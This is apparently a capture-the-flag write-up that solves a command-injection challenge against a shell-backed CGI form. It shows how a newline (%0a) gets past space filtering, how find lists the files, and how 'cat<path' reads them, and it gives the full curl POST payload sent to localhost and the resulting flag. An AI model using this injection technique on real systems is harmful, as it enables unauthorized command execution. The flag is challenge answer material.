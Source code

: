 ## Solution
* after a couple tries it becomes obvious that the input is passed to a shell but is more or less sanitized
* `%0a` (=> `\n`) isn't prohibited
* ` ` (space) is tho
* we can run `ls` in pwd but we can't check subfolders
* `find` to the rescue (if called without parameters it recursively lists directory starting from pwd)
* looks like the flag is in `./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`
* we can't just `cat` it
* after some quick googling we should be able to do `cat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`

## Flag
```
INS{warm_kitty_smelly_kitty_flush_flush_flush}
```
obtained by running `curl -s 'http://localhost:8090/index.cgi' -X POST --data-raw "dest=%0acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag" | xidel -se "/html/body/pre" -`
